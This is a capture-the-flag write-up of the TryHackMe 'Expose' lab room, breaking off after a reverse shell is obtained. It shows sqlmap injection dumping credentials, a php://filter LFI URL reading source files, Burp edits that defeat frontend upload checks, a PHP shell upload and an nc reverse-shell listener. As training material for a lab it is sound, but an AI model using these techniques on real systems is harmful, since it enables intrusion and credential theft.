https://tryhackme.com/room/expose

description:
This challenge is an initial test to evaluate your capabilities in red teaming skills. Start the VM by clicking the `Start Machine` button at the top right of the task. You will find all the necessary tools to complete the challenge, like Nmap, sqlmap, wordlists, PHP shell, and many more in the AttackBox.  

_Exposing unnecessary services in a machine can be dangerous. Can you capture the flags and pwn the machine_?

## nmap scan
```bash
nmap -A -p- -T5 -Pn 10.80.143.133
PORT     STATE SERVICE                 VERSION
21/tcp   open  ftp                     vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.150.117
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh                     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7b:d9:af:68:cb:58:b1:c9:43:5b:54:74:70:fd:80:7e (RSA)
|   256 6e:9e:fc:59:78:fe:fa:bd:b0:d3:db:10:60:ce:27:11 (ECDSA)
|_  256 88:d4:04:c7:d3:a3:4d:d2:23:bd:bd:41:0a:3f:e2:be (ED25519)
53/tcp   open  domain                  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
1337/tcp open  http                    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: EXPOSED
|_http-server-header: Apache/2.4.41 (Ubuntu)
1883/tcp open  mosquitto version 1.6.9
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     $SYS/broker/load/sockets/5min: 0.20
|     $SYS/broker/load/messages/sent/5min: 0.20
|     $SYS/broker/load/sockets/15min: 0.07
|     $SYS/broker/bytes/received: 18
|     $SYS/broker/messages/sent: 1
|     $SYS/broker/load/bytes/received/5min: 3.53
|     $SYS/broker/heap/current: 47240
|     $SYS/broker/load/bytes/received/1min: 16.45
|     $SYS/broker/store/messages/bytes: 179
|     $SYS/broker/bytes/sent: 4
|     $SYS/broker/clients/active: 0
|     $SYS/broker/load/bytes/sent/5min: 0.79
|     $SYS/broker/version: mosquitto version 1.6.9
|     $SYS/broker/messages/received: 1
|     $SYS/broker/uptime: 605 seconds
|     $SYS/broker/clients/connected: 0
|     $SYS/broker/load/messages/sent/15min: 0.07
|     $SYS/broker/load/messages/received/1min: 0.91
|     $SYS/broker/heap/maximum: 49688
|     $SYS/broker/load/connections/1min: 0.91
|     $SYS/broker/load/messages/received/5min: 0.20
|     $SYS/broker/load/messages/received/15min: 0.07
|     $SYS/broker/load/connections/5min: 0.20
|     $SYS/broker/clients/disconnected: 0
|     $SYS/broker/load/messages/sent/1min: 0.91
|     $SYS/broker/clients/inactive: 0
|     $SYS/broker/load/bytes/received/15min: 1.19
|     $SYS/broker/load/sockets/1min: 0.76
|     $SYS/broker/load/bytes/sent/1min: 3.65
|     $SYS/broker/load/connections/15min: 0.07
|_    $SYS/broker/load/bytes/sent/15min: 0.27
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 3 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

ka

```

### scan with feroxbuster:
discover domains on port 53

### directories enumeration
```bash
feroxbuster -u 'http://10.80.143.133:1337' -w /media/sf_wordlists/SecLists-master/Discovery/Web-Content/big.txt

```
interesting findings:
http://10.80.143.133:1337/admin 

```javascript
<!-- in source interesting is: -->
	$('#login').on('click',function(){
		$.ajax({
			url: 'includes/user_login.php',
			method: 'POST',
			data: {
				'email' : $('input[name="email"]').val(),
				'password' : $('input[name="password"]').val(),
			},
			success(data)
			{
				console.log(data)
				if(data)
				{
					if(data.status && data.status == 'success')
						location.href = 'chat.php';
					else{
						console.log(data.status)
						alert(data.status)
					}
				}
			}
		})
	})

```
http://10.80.143.133:1337/admin_101 
contains filled email field:

http://10.80.143.133:1337/phpmyadmin/

there is also:
http://10.80.143.133:1337/admin_101/test/ - empty directory listing
### mosquitto
```bash
mosquitto_sub -h 10.80.143.133 -t "#" -v

# I tried many payloads, but message was just delivered to sub and nothing more happened, maybe later I will find something about it.
mosquitto_pub -h 10.80.143.133 -t cmd -m "help"
```

### sqlmap
looks like application reveals how the query is constructed


I copied request intercepted using burp to file postrequest.txt:
![[image-90.png]]
I used sqlmap with -r
```bash
sqlmap -r postrequest.txt -p email
sqlmap -r postrequest.txt -p email --dump-all
# I clicked yes when sqlmap asked for cracking passwords:
# do you want to crack them via a dictionary-based attack? [Y/n/q] Y

```

interesting things discovered:
/file1010111/index.php 69c66901194a6486176e81f5945b8929 (easytohack) 
/upload-cv00101011/index.php // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z

```
[06:51:21] [INFO] retrieved: 'hacker@root.thm'
[06:51:22] [INFO] retrieved: '1'
[06:51:22] [INFO] retrieved: 'VeryDifficultPassword!!#@#@!#!@#1231'
Database: expose
Table: user
[1 entry]
+----+-----------------+---------------------+--------------------------------------+
| id | email           | created             | password                             |
+----+-----------------+---------------------+--------------------------------------+
| 1  | hacker@root.thm | 2023-02-21 09:05:46 | VeryDifficultPassword!!#@#@!#!@#1231 |
+----+-----------------+---------------------+--------------------------------------+


```

after login using this password we have:

I checked website discovered by sqlmap:
http://10.80.143.133:1337/file1010111/index.php
 69c66901194a6486176e81f5945b8929 (easytohack) 

in source code we have hint:
```html
<span style="display: none;">Hint: Try file or view as GET parameters?</span>

```

in /etc/passwd we have:
```bash
zeamkish:x:1001:1001:Zeam Kish,1,1,:/home/zeamkish:/bin/bash
```
Sqlmap discovered something interesting, possible related to Zeam user:
/upload-cv00101011/index.php // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z

I intercepted request for fuzzing to discover more files:
![[image-97.png]]
```bash
ffuf -request filefuzz.txt -request-proto http -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt 
# nothing very interesting found
```
I tried LFI with file mentioned as "only accessible through username starting with z" :
```bash
http://10.82.189.84:1337/file1010111/index.php?file=php://filter/read=convert.base64-encode/resource=/var/www/html/upload-cv00101011/index.php
```
I decoded response using cyberchef - from base64
now I have some logic to analyse:


ok, analysis - added as comments:
```html
<!-- Main Content -->
<main class=" mx-auto py-8  min-h-[80vh] flex items-center justify-center gap-10 flex-col xl:flex-row">
 <?php
 //print_r($_FILES);
    $password = $_POST['password'] ?? '';
    $error_message = false;
    // hardcoded password to have session: zeamkish
	 if ($password === 'zeamkish' AND !isset($_SESSION['validate_file'])){
		$_SESSION['validate_file'] = true;
    }
	
	// if we have validate_file:
	if(isset($_SESSION['validate_file'])){
			if (!isset($_FILES['file'])){
		echo "<p>";
		echo '<h1>File Upload</h1>
			<form method="POST" enctype="multipart/form-data" onsubmit="return validate();" id="validform">
			//only frontend validation
			<input type="file" name="file" id="file" accept=".png" required>
			<input type="submit" value="Upload">
			</form>';
		
		echo "</p>";
	}
	else{
		
				$targetDir = "upload_thm_1001/"; // Directory where uploaded files will be stored
				$targetFile = $targetDir . basename($_FILES["file"]["name"]); // Path of the uploaded file

					// Check if file is a valid upload
				if (move_uploaded_file($_FILES["file"]["tmp_name"], $targetFile)) {
				echo '<h1>File uploaded successfully! Maybe look in source code to see the path<span style=" display: none;">in /upload_thm_1001 folder</span> <h1>';
				} else {
				echo "Error uploading file.";
				}

	  exit;
	}
	}
	else{
		
	
	  if ($password === 'zeamkish' AND !isset($_SESSION['validate_file'])){
		$_SESSION['validate_file'] = true;


    } else {
      echo '<div class="fixed inset-0  flex items-center justify-center bg-gray-900 bg-opacity-50">';
      echo '<div class="bg-white rounded p-8 max-w-sm mx-auto">';
      echo '<form method="POST" >';
      echo '<label class="block mb-4">Please enter the password: 
	  <br>Hint: It is the name of machine user starting with letter "z"</label>';
      echo '<input type="password" name="password" class="w-full p-2 border rounded">';
      echo '<button type="submit" class="bg-gray-900 text-white px-4 py-2 mt-4 rounded hover:bg-gray-700">Submit</button>';
      echo '</form>';
      echo '</div>';
      echo '</div>';
        $error_message = true;

    }
	
	}
	
	  
    ?>
 
</main>
<?php
include 'footer.php';
?>
</body>

<script>


function validate(){

 var fileInput = document.getElementById('file');
  var file = fileInput.files[0];
  
  if (file) {
    var fileName = file.name;
    var fileExtension = fileName.split('.').pop().toLowerCase();
    
    if (fileExtension === 'jpg' || fileExtension === 'png') {
      // Valid file extension, proceed with file upload
      // You can submit the form or perform further processing here
      console.log('File uploaded successfully');
	  return true;
    } else {
      // Invalid file extension, display an error message or take appropriate action
      console.log('Only JPG and PNG files are allowed');
	  return false;
    }
  }
}

</script>
</html>

```
So looks like it's RCE vulnerable..


after login  we can upload only png files because there is frontend validation:

After reloading this page I checked in burp proxy "Do intercept -> response for this request" Below is screenshot with intercepted server response and my modification:

after this modification all files will be allowed. Remember to choose "all files" in file upload window:

I started in my kali linux listener for reverse shell:
```bash
nc -nlvp 1234
```
now file should be accessible in:
```bash
http://10.82.189.84:1337/upload-cv00101011/upload_thm_1001/shell.php
```

and we have reverse shell:


let's search for some user directories:
